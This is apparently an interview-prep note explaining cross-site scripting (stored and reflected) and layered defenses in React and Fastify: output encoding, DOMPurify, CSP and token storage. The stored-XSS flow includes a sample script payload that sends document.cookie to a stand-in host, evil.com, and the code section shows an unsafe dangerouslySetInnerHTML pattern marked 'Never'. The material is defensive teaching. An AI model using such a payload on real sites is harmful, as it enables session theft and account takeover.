

# What is XSS? How do you prevent it?

**Target time:** 60 seconds

---

## Talk track

> **XSS** = attacker gets **their script to run in your user's browser** in your app's origin.
>
> **Why it matters for auth:** XSS can steal tokens from memory/localStorage, hijack session, perform actions as the user.

---

## Flow 1 — Stored XSS (most dangerous)

```
1. Attacker posts comment:  <script>fetch('https://evil.com?c='+document.cookie)</script>
2. App saves comment to DB (missing output encoding / sanitization)
3. Victim admin opens applications page — comment renders
4. Script runs in admin's browser on your domain
5. If token in localStorage → stolen (auth/03)
   If HttpOnly cookie → JS can't read cookie, but script can still CALL your API
   as the logged-in user (actions on their behalf)
```

---

## Flow 2 — Reflected XSS

```
1. Attacker sends link:  https://app.example.com/search?q=<script>...</script>
2. Page echoes q into HTML without encoding:  <p>Results for: <script>...</p>
3. Victim clicks link → script runs
```

---

## Flow 3 — Defense layers (in order)

```
LAYER 1 — OUTPUT ENCODING (primary)
  React JSX: <div>{userComment}</div>  → React escapes < > & automatically

LAYER 2 — SANITIZE if HTML required
  Rich text editor output → DOMPurify before dangerouslySetInnerHTML

LAYER 3 — CSP header (belt)
  Content-Security-Policy: script-src 'self'
  → blocks inline script even if XSS payload gets injected

LAYER 4 — TOKEN STORAGE (limits blast radius)
  HttpOnly refresh cookie + short-lived access in memory
  → attacker can't persistently exfiltrate refresh token via document.cookie

LAYER 5 — INPUT VALIDATION (auth/07)
  Reject/sanitize on way in — but output encoding is still required
```



---

## Flow 4 — XSS + auth interaction (interview gold)

```
"If we used localStorage for JWT, one stored XSS = permanent account takeover until token expires.
 That's why we keep refresh in HttpOnly cookie and access token short-lived in memory.
 XSS still bad — attacker can act as user while tab is open — but we limit persistence."
```

---

## Code

```tsx
// ✅ Safe — React escapes
<div>{comment.text}</div>

// ⚠️ Only with sanitize
import DOMPurify from "dompurify";
<div dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(html) }} />

// ❌ Never
<div dangerouslySetInnerHTML={{ __html: userInput }} />
```

```ts
// Fastify — CSP header
reply.header("Content-Security-Policy", "default-src 'self'; script-src 'self'");
```

---

## Avoid

- "React prevents all XSS" — dangerouslySetInnerHTML and href="javascript:" still risky
- localStorage tokens + any XSS surface
